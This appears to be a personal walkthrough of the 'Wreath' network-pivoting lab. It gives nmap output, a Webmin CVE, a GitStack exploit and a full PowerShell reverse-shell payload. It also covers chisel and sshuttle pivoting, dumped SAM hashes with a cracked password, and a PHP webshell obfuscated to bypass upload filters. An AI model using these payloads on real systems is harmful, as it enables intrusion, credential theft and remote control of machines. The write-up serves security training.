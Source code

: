 # Wreath
> Silver Garcia - May 19th, 2024

Initial information:
_There are two machines on my home network that host projects and stuff I'm working on in my own time -- one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference._

## Web server
### Enumeration
Nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-19 18:02 EDT
Nmap scan report for 10.200.84.200
Host is up (0.19s latency).
Not shown: 14900 filtered tcp ports (no-response), 96 filtered tcp ports (admin-prohibited)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_http-title: Did not follow redirect to https://thomaswreath.thm
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Thomas Wreath | Developer
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2024-05-19T21:50:11
|_Not valid after:  2025-05-19T21:50:11
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|_  http/1.1
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Aggressive OS guesses: HP P2000 G3 NAS device (89%), Linux 2.6.32 (88%), Infomir MAG-250 set-top box (88%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (88%), Linux 5.0 (88%), Linux 5.0 - 5.4 (88%), Linux 5.1 (88%), Ubiquiti AirOS 5.5.9 (88%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (88%), Linux 2.6.32 - 3.13 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 9090/tcp)
HOP RTT       ADDRESS
1   192.87 ms 10.50.85.1
2   189.87 ms 10.200.84.200
```

### Getting access
RCE vulnerability on MiniServ 1.890 (CVE-2019-15107).

## Inside network

### Enumeration
One-liner script to discover new hosts:
```bash
[root@prod-serv ~]# for i in {1..255}; do (ping -c 1 10.200.84.${i} | grep "bytes from" &); done
64 bytes from 10.200.84.1: icmp_seq=1 ttl=255 time=0.310 ms
64 bytes from 10.200.84.150: icmp_seq=1 ttl=128 time=0.546 ms
64 bytes from 10.200.84.200: icmp_seq=1 ttl=64 time=0.056 ms
64 bytes from 10.200.84.250: icmp_seq=1 ttl=64 time=0.469 ms
```

One-liner script to scan open ports:
```bash
for i in {1..65535}; do (echo > /dev/tcp/<ip>/$i) >/dev/null 2>&1 && echo $i is open; done
```

Port scan on 10.200.84.150
```
80 is open
135 is open
139 is open
445 is open
3389 is open
5357 is open
5985 is open
```

### Git server
GitStack server running on 10.200.84.150

#### Getting access
Got access using gistack exploit (43777 on EDB).
1. Create SSH tunnel to 10.200.84.150:80
```bash
ssh -i id_rsa -L 80:10.200.84.200:80 root@10.200.84.200 -fN
```
2. Check if tunnel is working correctly.
3. Change the command variable on the exploit to get a revershell:
```powershell
powershell -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('10.200.84.200',7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"
```
4. Start listener and execute exploit

Got access as System user, no need for Privilege Escalation

Dumped sam database:
```
Administrator:37db630168e5f82aafa8461e05c6bbd1
Thomas:02d90eda8f6b6b06c32d5f207831101f
```
Thomas cracked password
02d90eda8f6b6b06c32d5f207831101f:i<3ruby

### Personal Computer

Got access pivoting through werbserver and Git server
1. Used sshuttle to tunnel traffic through compromised werbserver:
```bash
sshuttle 
```
2. Used chisel to create a forward proxy on Git server:
	On Git server:
	```bash
	.\chisel server -p 20000 --socks5
	```

	On attack machine:
	```bash
	./chisel client 10.84.200.150:20000 20001:socks
	```
3. Got access to web page on personal computer

#### Getting access
**Got access to /resources directory with `thomas:i<3ruby` credentials**

The `/resources` directory allows us to upload files. Although it has some file type protection, they can be bypassed.

PHP webshell code to be uploaded:
```bash
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

Obfuscated on https://www.gaijin.at/en/tools/php-obfuscator:
```bash
<?php \$z0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$z0)){echo base64_decode('PHByZT4=').shell_exec(\$z0).base64_decode('PC9wcmU+');}die();?>
```


SAM database:
```
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
[*] Cleaning up...
```
